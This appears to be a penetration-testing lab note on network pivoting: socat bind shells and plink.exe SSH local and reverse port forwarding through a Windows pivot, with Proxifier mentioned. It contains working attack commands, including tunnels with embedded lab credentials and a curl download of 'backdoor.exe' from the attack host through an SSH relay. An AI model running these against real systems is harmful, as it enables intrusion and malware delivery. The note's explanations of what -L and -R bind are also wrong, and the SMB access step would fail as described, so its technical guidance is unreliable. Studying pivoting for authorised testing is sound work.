 **Limitations**:
- Requires `socat` installation on the pivot host.
- Pivot host must allow binding to the specified port (e.g., 8080).
- Bind shells are less stealthy than reverse shells, as they require an open port on the target.
- Relies on the attack host reaching the pivot host’s `socat` listener.

### Notes on SSH for Windows: plink.exe

**Overview**:
- Focuses on using `plink.exe`, a command-line SSH client from PuTTY, to perform SSH port forwarding on a Windows pivot host (e.g., 172.16.5.19) to access services or deliver payloads through an Ubuntu SSH server (e.g., 10.129.202.64), with Proxifier for dynamic traffic routing.

**1. Plink.exe for SSH Port Forwarding**:
- **Definition**: `plink.exe` is a lightweight SSH client for Windows, supporting local, remote, and dynamic port forwarding, similar to OpenSSH.
- **Use Case**: Enables a Windows pivot host to forward traffic to internal network services or expose attacker services to internal targets via an SSH server.
- **Key Insight**: `plink.exe` provides SSH tunneling capabilities on Windows without requiring a full PuTTY installation, ideal for post-exploitation scenarios.

**2. Scenario Setup**:
- **Attack Host**: 10.10.14.18, hosting services or listeners (e.g., web server or Metasploit handler).
- **Pivot Host**: Windows host (172.16.5.19), running `plink.exe` to establish SSH tunnels.
- **SSH Server**: Ubuntu server (10.129.202.64), acting as the SSH relay.
- **Target**: Internal network services (e.g., 172.16.5.20:445) or hosts accessible via the pivot.
- **Goal**: Use `plink.exe` for port forwarding and Proxifier for dynamic SOCKS proxy routing to access internal services or deliver payloads.

**3. Steps for Local Port Forwarding with Plink.exe**:
- **Objective**: Forward an internal service (e.g., SMB on 172.16.5.20:445) to the attack host via the Windows pivot and Ubuntu SSH server.
- **Command**:
  - On the Windows pivot (172.16.5.19):
    - `plink.exe -ssh -l ubuntu -pw Password123 -L 4450:172.16.5.20:445 10.129.202.64`
    - Establishes a local SSH tunnel:
      - `-L 4450:172.16.5.20:445`: Binds port 4450 on the attack host to 172.16.5.20:445 via the SSH server.
      - `-l ubuntu -pw Password123`: Authenticates to the Ubuntu SSH server (10.129.202.64).
- **Usage**:
  - On the attack host, access the service:
    - `smbclient -L //localhost:4450 -U victor%pass@123`
    - Connects to the SMB service on 172.16.5.20:445 through the tunnel.
- **Key Insight**: Local forwarding allows the attack host to access internal services as if they were local, using the Windows pivot as a relay.

**4. Steps for Reverse Port Forwarding with Plink.exe**:
- **Objective**: Expose a service on the attack host (e.g., a web server hosting a payload) to the internal network via the Windows pivot and SSH server.
- **Command**:
  - On the Windows pivot (172.16.5.19):
    - `plink.exe -ssh -l ubuntu -pw Password123 -R 8123:localhost:8123 10.129.202.64`
    - Establishes a reverse SSH tunnel:
      - `-R 8123:localhost:8123`: Binds port 8123 on the SSH server (10.129.202.64) to port 8123 on the attack host.
      - `localhost` refers to the attack host (10.10.14.18) from the perspective of the SSH connection.
- **Setup on Attack Host**:
  - Start a web server: `python3 -m http.server 8123`
  - Hosts a payload (e.g., `backdoor.exe`).
- **Usage**:
  - On an internal target (e.g., 172.16.5.20):
    - `curl http://10.129.202.64:8123/backdoor.exe -o backdoor.exe`
    - Downloads the payload from the attack host via the SSH server’s port 8123.
- **Key Insight**: Reverse forwarding makes the attack host’s service accessible to internal hosts, facilitating payload delivery.